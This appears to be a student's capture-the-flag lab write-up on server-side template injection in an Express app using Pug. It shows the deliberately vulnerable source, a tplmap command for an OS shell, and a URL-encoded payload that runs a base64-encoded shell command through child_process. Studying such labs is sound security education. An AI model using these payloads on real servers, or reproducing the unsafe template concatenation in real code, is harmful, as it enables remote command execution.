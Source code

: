 ```yaml
---
title: Simple Web 0x22(Lab - Pug)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x22(Lab - Pug)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8008

## Source code
:::spoiler
```javascript=
const express = require('express');
const pug = require('pug');

const app = express();

const template = `
h1 Hello %NAME%
form(method='GET' action='/')
  div
    label(for='nickname') Name:
    input#nickname(type='text', placeholder='Nickname' name='name')
    button(type='submit') Submit 
  a(href='/source') Source Code
`;

app.get('/', (req, res) => {
    const name = (req.query.name ?? 'Anonymous').toString();
    if (name.includes('{')) return res.send('Nice try');
    let html = pug.render(template.replace('%NAME%', name));
    res.set('Content-Type', 'text/html');
    res.send(html);
});

app.get("/source", (_, res) => {
    res.sendFile(__filename);
});

app.listen(3000, () => console.log(':3000'));

```
:::
## Exploit - `tqlmap`
```bash!
$ ./tplmap.py --engine pug --os-shell -u "http://h4ck3r.quest:8008/?name=bob"
```

* Using wireshark to trace the payload
You must let the template by like:
    ```javascript!
    const template = `
    h1 Hello %NAME%
    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=', 'base64').toString())
    form(method='GET' action='/')
      div
        label(for='nickname') Name:
        input#nickname(type='text', placeholder='Nickname' name='name')
        button(type='submit') Submit 
      a(href='/source') Source Code
    `;
    ```
    Including a new line and an equal sign
    Payload:
    `%0A%3D%20global.process.mainModule.require%28%27child_process%27%29.execSync%28Buffer%28%27bHM%3D%27%2C%2B%27base64%27%29.toString%28%29%29`
    which is
    ```

    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=',+'base64').toString())
    ```
* Note that `bHM=` is command `ls` in base64 format
## Reference
[关于SSTI注入的二三事](https://xz.aliyun.com/t/11090)
[【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤](https://blog.51cto.com/u_15414689/5530904)
[0xdbe-appsec/ssti-express-pug](https://github.com/0xdbe-appsec/ssti-express-pug)
[Tplmap](https://github.com/epinna/tplmap/blob/master/README.md)
[[Linux系統] Ubuntu 安裝 Node.js](https://andy6804tw.github.io/2019/09/23/ubuntu-indtall-nodejs/)